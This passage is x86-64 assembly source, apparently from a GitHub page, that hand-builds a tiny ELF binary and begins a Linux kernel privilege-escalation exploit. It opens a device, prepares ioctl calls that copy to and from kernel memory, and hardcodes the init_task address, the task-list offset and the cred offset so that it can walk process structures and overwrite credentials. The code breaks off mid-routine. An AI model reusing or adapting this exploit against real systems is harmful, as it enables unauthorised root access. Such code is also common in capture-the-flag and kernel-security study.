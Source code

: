 
```asm
;##############################################################################
; https://stackoverflow.com/questions/53382589/smallest-executable-program-x86-64-linux
bits 64
        org     0x08048000
ehdr:                              ; Elf64_Ehdr
        db      0x7F,"ELF",2,1,1,0 ;   e_ident
times 8 db      0
        dw      2                  ;   e_type
        dw      62                 ;   e_machine
        dd      1                  ;   e_version
        dq      _start             ;   e_entry
        dq      phdr - $$          ;   e_phoff
        dq      0                  ;   e_shoff
        dd      0                  ;   e_flags
        dw      ehdrsize           ;   e_ehsize
        dw      phdrsize           ;   e_phentsize
        dw      1                  ;   e_phnum
        dw      0                  ;   e_shentsize
        dw      0                  ;   e_shnum
        dw      0                  ;   e_shstrndx
ehdrsize equ $ - ehdr
phdr:                              ; Elf64_Phdr
        dd      1                  ;   p_type
        dd      7                  ;   p_flags
        dq      0                  ;   p_offset
        dq      $$                 ;   p_vaddr
        dq      $$                 ;   p_paddr
        dq      filesize           ;   p_filesz
        dq      filesize           ;   p_memsz
        dq      0x1000             ;   p_align
phdrsize equ $ - phdr

;##############################################################################

; https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
; https://syscalls64.paolostivanin.com/
%define SYS_OPEN                2
%define SYS_IOCTL               16
%define SYS_EXIT                60

; gcc -dM -E -include fcntl.h - < /dev/null | grep ' O_'
%define O_RDWR                  02o

%define IOCTL_COPY_TO_USER      0x20
%define IOCTL_COPY_FROM_USER    0x30

%define INIT_TASK               0xffffffff82211740
%define O_NEXT                  0x388
%define BUF_SIZE                0x1000
%define CRED_SIZE               16 * 8
%define CRED_OFS                0x618

_start:
        mov            rdi, sDevPipeline
        mov            rsi, O_RDWR
        mov            rdx, 666o
        mov            eax, SYS_OPEN
        syscall
        mov            rdi, rax          ; pipeline_fd, preserved through syscalls
        mov            rdx, ioctl_arg    ; preserved through syscalls

        mov            rax, INIT_TASK+O_NEXT
```